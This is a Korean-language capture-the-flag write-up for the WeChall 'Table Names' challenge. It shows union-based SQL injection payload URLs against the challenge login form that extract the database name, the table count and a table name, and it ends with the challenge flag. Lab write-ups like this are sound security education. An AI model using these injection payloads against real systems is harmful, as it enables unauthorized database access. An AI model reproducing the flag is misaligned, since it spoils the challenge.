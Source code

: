 # [WeChall] Table Names - Writeup

로그인 페이지로부터 데이터베이스의 이름과 테이블 이름을 구해와야하는 SQL Injection 문제다.

___

## 1. Union Based SQL Injection
[http://www.wechall.net/challenge/table_names/challenge.php?username=%27union+select+1,2,3%23&password=&login=login](http://www.wechall.net/challenge/table_names/challenge.php?username=%27union+select+1,2,3%23&password=&login=login)

3개의 컬럼을 사용한다.

___

## 2. 데이터베이스 이름 추출

[http://www.wechall.net/challenge/table_names/challenge.php?username=%27union+select+database%28%29,2,3%23&password=&login=login](http://www.wechall.net/challenge/table_names/challenge.php?username=%27union+select+database%28%29,2,3%23&password=&login=login)
 
데이터베이스의 이름은 `gizmore_tableu61`이다.

___

## 3. 테이블 갯수 추출

[http://www.wechall.net/challenge/table_names/challenge.php?username=%27+union+select+count%28table_name%29,2,3+from+information_schema.tables%23&password=&login=login](http://www.wechall.net/challenge/table_names/challenge.php?username=%27+union+select+count%28table_name%29,2,3+from+information_schema.tables%23&password=&login=login)

테이블은 총 63개다. 

___

## 4. 마지막 테이블 이름 추출

[http://www.wechall.net/challenge/table_names/challenge.php?username=%27+union+select+%28table_name%29,2,3+from+information_schema.tables+limit+62,63%23&password=&login=login](http://www.wechall.net/challenge/table_names/challenge.php?username=%27+union+select+%28table_name%29,2,3+from+information_schema.tables+limit+62,63%23&password=&login=login)

마지막 테이블의 이름은 `usertableus4`이다.

___

## Answer

flag: `gizmore_tableu61_usertableus4`